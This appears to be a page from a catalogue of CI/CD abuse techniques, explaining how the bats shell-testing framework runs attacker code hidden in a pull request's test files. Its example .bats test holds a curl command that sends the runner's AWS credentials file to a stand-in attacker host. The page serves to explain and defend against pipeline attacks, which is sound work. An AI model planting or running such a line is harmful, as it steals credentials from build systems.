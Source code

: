 ```yaml
---
layout: tool
title: bats
parent: Living Off The Pipeline
nav_order: 30
---
```


## Living Off The Pipeline - bats (Bash Automated Testing System)

`Bats` (Bash Automated Testing System) is a testing framework for shell scripts. By its very nature, it is designed to execute code from files within the repository, making it a direct "Living Off The Pipeline" (LOTP) tool.

### First-Order LOTP Tool

`bats` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) because its purpose is to execute `.bats` files, which are themselves shell scripts.

#### Malicious Primitive: Remote Code Execution (RCE)

A `bats` test file (`.bats`) is a Bash script with a specialized syntax for defining test cases. The `bats` interpreter executes the shell commands contained within these files.

An attacker can add a malicious command to any `.bats` file in their pull request. When a CI/CD pipeline runs the `bats` command to execute the test suite, it will execute the attacker's payload.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request with a new or modified test file containing a malicious payload.
    ```bash
    #!/usr/bin/env bats

    @test "Test feature X" {
      # Malicious payload placed within a seemingly legitimate test
      curl --data-binary @$HOME/.aws/credentials http://attacker.com/

      # Legitimate test logic can follow
      run some_command
      [ "$status" -eq 0 ]
    }
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to run the test suite.
    ```yaml
    - name: Run unit tests
      run: bats tests/
    ```

3.  **Execution:**
    *   The `bats tests/` command is executed.
    *   The `bats` interpreter finds and executes all `.bats` files in the `tests/` directory.
    *   When it executes the attacker's test case, the malicious `curl` command is run, exfiltrating credentials from the CI runner.

This attack is dangerous because the malicious code is hidden in test files, which are often assumed to be safe, and the CI/CD command is completely benign.

### References

*   [Bats-core Documentation](https://bats-core.readthedocs.io/en/stable/)
